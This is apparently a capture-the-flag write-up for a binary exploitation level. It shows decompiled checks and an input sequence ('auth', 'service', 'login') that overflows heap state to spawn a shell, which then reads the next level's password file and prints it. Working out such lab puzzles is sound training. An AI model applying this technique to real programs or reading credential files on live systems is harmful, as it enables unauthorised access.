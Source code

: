 # Level 8
*password : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9*

```
$ scp -P 4242 level8@192.168.56.108:level8 binary/
```

## Analyze

bool4 must be true

```
    while ((bool)bool3) {
      if (fd == 0) break;
      --fd;
      bool4 = *str_tmp < *cmp;
      bool3 = *str_tmp == *cmp;
      ++str_tmp;
      ++cmp;
    }
```

at the end of the loop str_tmp[i] must be < to cmp[i]

cmp = "login"
str = input

### Test

```
$ ./level8
login
Segmentation fault (core dumped)
```
condition pass


```
      if (auth[8] == 0) {
        fwrite("Password:\n",1,10,stdout);
      }
      else {
        system("/bin/sh");
      }
```

auth[8] must be different to '\0'

### Test

```
$ ./level8
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
